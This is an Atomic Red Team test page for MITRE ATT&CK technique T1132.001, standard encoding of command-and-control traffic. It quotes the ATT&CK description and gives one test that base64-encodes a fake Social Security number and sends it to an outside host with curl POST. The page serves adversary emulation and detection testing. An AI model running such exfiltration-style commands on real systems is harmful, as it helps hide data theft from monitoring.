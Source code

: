 # T1132.001 - Standard Encoding
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1132.001)
<blockquote>Adversaries may encode data with a standard data encoding system to make the content of command and control traffic more difficult to detect. Command and control (C2) information can be encoded using a standard data encoding system that adheres to existing protocol specifications. Common data encoding schemes include ASCII, Unicode, hexadecimal, Base64, and MIME.(Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```






<br/>
